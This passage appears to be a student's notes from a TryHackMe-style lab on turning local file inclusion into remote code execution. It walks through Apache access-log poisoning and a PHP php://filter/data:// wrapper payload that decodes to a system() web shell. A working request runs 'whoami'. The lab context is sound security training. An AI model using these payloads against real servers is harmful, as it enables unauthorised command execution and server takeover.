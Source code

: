 ```php
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 10.10.198.29.eu-west-1.compute.internal Port 80</address>
</body></html>
```

The code will then be logged in the server's access logs.

![Apache access log containing the injected PHP code](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/d9c19f6c916c790bb4fa94e09a5fcaef.png)\


The attacker then uses LFI to include the access log file: `?page=/var/log/apache2/access.log`

![Injected PHP code in the web access log has been executed](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/f4a675e26aac4f257dfd24942bcdbd0f.png)



## LFI2RCE - Wrappers

### **PHP Wrappers**

PHP wrappers can also be used not only for reading files but also for code execution. The key here is the `php://filter` stream wrapper, which enables file transformations on the fly. Take the PHP base64 filter as an example. This method allows attackers to execute arbitrary code on the server using a base64-encoded payload.&#x20;



We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`

| Position | Field                       | Value                                                                           |
| -------- | --------------------------- | ------------------------------------------------------------------------------- |
| 1        | <p>Protocol Wrapper<br></p> | php://filter                                                                    |
| 2        | Filter                      | <p>convert.base64-decode<br></p>                                                |
| 3        | <p>Resource Type<br></p>    | <p>resource=<br></p>                                                            |
| 4        | <p>Data Type<br></p>        | <p>data://plain/text,<br></p>                                                   |
| 5        | <p>Encoded Payload<br></p>  | <p>PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+<br></p> |

In the table above, `PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+` is the base64-encoded version of the PHP code. When the server processes this request, it first decodes the base64 string and then executes the PHP code, allowing the attacker to run commands on the server via the "cmd" GET parameter.\


![Vulnerable application containing the PHP wrapper payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/0e01212213a4a512d552b55d22b7014d.png)

The above did not work from the web browser because of how it encodes, but from burp it worked

```
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7IGVjaG8gJ1NoZWxsIGRvbmUhJzsgPz4=&cmd=whoami
```
